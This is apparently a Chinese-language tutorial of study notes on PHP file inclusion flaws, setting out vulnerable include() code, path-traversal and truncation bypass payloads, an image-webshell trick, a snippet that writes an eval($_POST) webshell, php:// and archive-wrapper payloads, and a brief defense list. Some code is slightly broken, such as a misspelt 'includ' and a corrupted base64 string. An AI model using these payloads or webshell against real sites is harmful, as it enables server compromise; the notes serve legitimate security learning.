

# 文件包含

#### 常见的文件包含函数

- 概念:程序开发人员通常会把`可重复使用的函数`写到单个文件中,在使用某个函数的时候,`直接调用此文件`,无需再次编写
- 原因:为了代码更灵活,通常会把`被包含的文件设置为变量`,进行`动态调用`,从而导致客户端可以`调用任意文件`,造成文件包含漏洞.动态包含的`文件路径参数`,客户端可控

- include() -->找不到被包含的文件时之产生`警告`,脚本将`继续执行`
- include_once() -->和include类似,唯一区别是如果该文件中的代码`已经被包含`,则不会被`再次包含`
- require() -->找不到被包含的文件时会产生`致命的错误`,并`停止脚本`
- require_once() -->和require类似,唯一区别是如果文件被包含则不会被再次包含
- `require`和`include`的区别:使用`require`时,只要`程序执行`则`立即调用文件`.而`include`只有`程序执行`到`该函数`才会被调用
- 其它用于包含的函数:`highlight_file()`,`show_source()`,`readfile()`,`file_get_contents()`,`fopen()`,`file()`

```php
//经典代码,对$_GET['filename']参数没有经过严格的过滤,直接带入了include()函数,攻击者可以修改$_GET['filename']的值,加载其它文件,执行非预期的操作
<?php
$filename=$_GET['filename'];
include($filename)
?>

//图片马制作
copy /b 1.jpg + shell.php image_with_payload.jpg
```

------

#### 分类

- 主要包括`本地文件包含(LFI)`和`远程文件包含(RFI)`

- 简单来说,本地文件包含可以`读取`和`打开本地文件`,远程文件包含(http,ftp,php伪协议)就是可以`远程加载文件`

- `包含条件`:allow_url_fopen=On(php.ini中进行配置,该选项默认为on)->`本地文件包含不受影响`&&用户可以`动态控制变量`

- ```php
  //无限制本地文件包含漏洞经典代码
  <?php
  $filename=$_GET['filename'];
  include($filename);
  ?>
  ```

------

#### 本地文件包含(LFI)

- `绝对路径`读取本地host文件-->`?action=C:/Windows/System32/drivers/etc/hosts`

- `相对路径`读取本地host文件-->`?action=..//..//..///..//..//..//..//..//windows/system32/drivers/etc/hosts`

- 包含图片木马:`?action=./test.jpg`

- `有限制`本地文件包含漏洞`绕过`

- ```php
  <?php
  $filename=$_GET['filename'];
  include($filename.".php");
  ?>
      
  //绕过方法
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```

------

#### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

- 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:/windows/system32/drivers/etc/hosts]
  - 

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`
  - 

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

  

- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt


- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

  

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  - 用途:读取压缩包内的文件(相对/绝对)
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.zlib://shell.zip#shell.txt
  - http://192.168.1.1/include.php?file=compress.zlib://shell.zip#shell.txt

- 其它

- 

------

#### 文件包含漏洞防御

- 1.严格判断包含中的参数是否外部可控
- 2.路径限制
- 3.包含文件验证
- 4.尽量不要使用`动态包含`,可以在需要包含的页面固定写好
- 5.php中可以使用`open_basedir`配置限制访问
- 6.过滤`.`,`/`,`/`等
- 7.禁止服务器远程文件包含

------

#### 本地文件包含演示

```php
//示例代码include.php
<?
$cover=$_GET['action'];
includ $cover;
?>
```


- 在同级目录`test`下创建`1.txt`,然后txt里写`html`
- http://192.168.69.195/file/include.php?action=../test/1.txt

- 执行效果展示


- 发现`html`代码部分是可以被成功解析运行出来的-->`include`是会执行代码的
- 使用文件包含读取系统文件:`http://192.168.69.195/file/include.php?action=C:/Windows/System32/drivers/etc/hosts`


​    

